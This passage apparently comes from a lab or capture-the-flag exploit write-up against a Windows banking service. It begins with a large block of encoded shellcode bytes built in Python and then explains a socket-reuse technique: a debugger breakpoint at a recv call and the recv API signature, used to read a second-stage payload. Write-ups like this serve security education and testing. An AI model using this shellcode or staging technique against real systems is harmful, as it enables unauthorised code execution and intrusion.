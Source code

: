     buf += b"\xab\xfc\x32\x9a\xab\xe1\x83\x9d\x9a\xb4\x98\xc7\x3c"
    buf += b"\x37\x4c\x7c\x75\x2f\x91\xb9\xcf\xc4\x61\x35\xce\x0c"
    buf += b"\xb8\xb6\x7d\x71\x74\x45\x7f\xb6\xb3\xb6\x0a\xce\xc7"
    buf += b"\x4b\x0d\x15\xb5\x97\x98\x8d\x1d\x53\x3a\x69\x9f\xb0"
    buf += b"\xdd\xfa\x93\x7d\xa9\xa4\xb7\x80\x7e\xdf\xcc\x09\x81"
    buf += b"\x0f\x45\x49\xa6\x8b\x0d\x09\xc7\x8a\xeb\xfc\xf8\xcc"
    buf += b"\x53\xa0\x5c\x87\x7e\xb5\xec\xca\x16\x7a\xdd\xf4\xe6"
    buf += b"\x14\x56\x87\xd4\xbb\xcc\x0f\x55\x33\xcb\xc8\x9a\x6e"
    buf += b"\xab\x46\x65\x91\xcc\x4f\xa2\xc5\x9c\xe7\x03\x66\x77"
    buf += b"\xf7\xac\xb3\xd8\xa7\x02\x6c\x99\x17\xe3\xdc\x71\x7d"
    buf += b"\xec\x03\x61\x7e\x26\x2c\x08\x85\xa1\x59\xc7\x8b\x37"
    buf += b"\x36\xd5\x93\x36\x7d\x50\x75\x52\x91\x35\x2e\xcb\x08"
    buf += b"\x1c\xa4\x6a\xd4\x8a\xc1\xad\x5e\x39\x36\x63\x97\x34"
    buf += b"\x24\x14\x57\x03\x16\xb3\x68\xb9\x3e\x5f\xfa\x26\xbe"
    buf += b"\x16\xe7\xf0\xe9\x7f\xd9\x08\x7f\x92\x40\xa3\x9d\x6f"
    buf += b"\x14\x8c\x25\xb4\xe5\x13\xa4\x39\x51\x30\xb6\x87\x5a"
    buf += b"\x7c\xe2\x57\x0d\x2a\x5c\x1e\xe7\x9c\x36\xc8\x54\x77"
    buf += b"\xde\x8d\x96\x48\x98\x91\xf2\x3e\x44\x23\xab\x06\x7b"
    buf += b"\x8c\x3b\x8f\x04\xf0\xdb\x70\xdf\xb0\xec\x3a\x7d\x90"
    buf += b"\x64\xe3\x14\xa0\xe8\x14\xc3\xe7\x14\x97\xe1\x97\xe2"
    buf += b"\x87\x80\x92\xaf\x0f\x79\xef\xa0\xe5\x7d\x5c\xc0\x2f"
    

It can be done with less, but 66 seems impossible.

#### Socket Reuse - Fetch Descriptor

Rastating has a good writeup on [Socket
Reuse](https://rastating.github.io/using-socket-reuse-to-exploit-vulnserver/),
which I’ll basically follow here.

The program already has an open socket with my host, the one that came from
the `accept` call and is being used to run the banking program. If I can get
the socket descriptor, I can make a call to socket to read more data from it
into a buffer of my choosing.

In x32dbg, I’ll put a break point at the `recv` call that gets the code just
before the call to `_SaveCreds`:

    
    
          recv(sock,recv_buf,0x400,0);
          _memset(code,0,0x50);
          _strncpy(code,recv_buf,0x50);
          _SaveCreds(code,fullname);
    

That address is 0x71901d79:

![image-20220204064559504](https://0xdfimages.gitlab.io/img/image-20220204064559504.png)

`recv` has the following [description](https://docs.microsoft.com/en-
us/windows/win32/api/winsock/nf-winsock-recv):

    
    
    int recv(
      [in]  SOCKET s,
      [out] char   *buf,
      [in]  int    len,
      [in]  int    flags
    );
    